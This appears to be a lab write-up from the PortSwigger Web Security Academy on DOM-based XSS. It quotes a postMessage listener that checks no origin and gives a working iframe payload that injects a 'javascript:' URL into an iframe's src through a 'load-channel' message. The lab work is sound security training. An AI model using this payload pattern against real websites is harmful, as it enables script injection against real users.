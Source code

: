 ```yaml
---
layout: post
title:  "DOM XSS using web messages and JSON.parse"
date:   2024-11-19 10:20:54 +0530
categories: [BSCP, DOM Based]
---
```


## Objective 


## Solution 

Look into source of the page, we found the following javascript code 

```js
<script>
    window.addEventListener('message', function (e) {
        // Create an iframe and an ACMEplayer object to manage the iframe
        var iframe = document.createElement('iframe');
        var ACMEplayer = { element: iframe };
        var d;

        // Append the iframe to the document body
        document.body.appendChild(iframe);

        // Attempt to parse the incoming message data as JSON
        try {
            d = JSON.parse(e.data);
        } catch (e) {
            return; // Exit if parsing fails
        }

        // Handle different message types
        switch (d.type) {
            case "page-load":
                // Scroll the ACMEplayer iframe into view
                ACMEplayer.element.scrollIntoView();
                break;

            case "load-channel":
                // Set the iframe's source URL
                ACMEplayer.element.src = d.url;
                break;

            case "player-height-changed":
                // Adjust the iframe's width and height
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;

            default:
                // Ignore unknown message types
                break;
        }
    }, false);
</script>
```

By the look of it, only `load-channel` type is interesting ones.. because we can set the key like `url` set the value to `javascript:print()` and since it will load inside an iframe and executes it 

Constructing all with the following payload,

```html
<iframe src=https://0aff003603b08889806fd08d009600db.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

When the iframe loads, it sends a message with the type `load-channel` to the main page. The event listener parses this message and processes it in a `switch` statement.

For the `load-channel` case, the `url` property from the message is assigned to the `src` of the iframe (`ACMEplayer.element`). If this `url` contains a malicious JavaScript payload, it is executed. Since no origin check is performed and `targetOrigin` is unrestricted (`'*'`), the payload runs when the victim opens the page, triggering the `print()` function.

Now copy paste the payload into exploit server and then just view the exploit on whether the payload works and the payload works where the `print()` function is triggered

![]({{ site.baseurl }}/assets/images/dom/dom-2.png)

Just deliver the exploit to victim and that solves the lab 

![]({{ site.baseurl }}/assets/images/dom/dom-3.png)